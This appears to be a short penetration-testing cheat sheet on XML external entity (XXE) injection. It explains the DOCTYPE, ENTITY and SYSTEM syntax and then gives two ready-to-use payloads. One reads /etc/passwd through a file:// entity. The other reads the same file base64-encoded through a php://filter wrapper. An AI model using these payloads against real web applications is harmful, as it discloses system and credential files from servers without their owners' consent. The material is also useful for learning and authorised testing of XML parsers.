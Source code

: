 # XXE Payloads

When you notice XML in the website or through the HTTP headers, we should see if we can get some XXE.

### Example, Basic File Read

IF you are able to change the XML code in the POST, we might be able to leverage an XXE vulnerability. Lets look at a simple XML code block like this.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```

For a file read injection we can add some code to the code block. But first we need to understand some basic syntax. `!DOCTYPE` - declares a set of rules about what can appear in the xml. `!ENTITY` - is similar to defining a variable that you can call on later in the file. `SYSTEM` - tells the XML parser to retrieve the entity from an external source allowing for XXE. Lastly, we can input the variable we defined earlier with `!ENTITY` to a textfield. It would look something like this. `<text>&variable;<\text>`. Using this knowledge we can change our XML code block to look something like this.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```

This will attempt to read the `/etc/passwd` file AS the webserver and output the contents of the file where `<reward>` should go.

### Base64 Encoded File Read

Sometimes, we will need to grab the base64 encoded output of a file if file reads are filtered (which they commonly are). To do this, we can utilize the simple php command `php://filter/read=convert.base64-encode/resource=/etc/passwd`

```xml
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>
<any>
<title>test</title>
  <textoutput>&file;</textoutput>
</any>
```
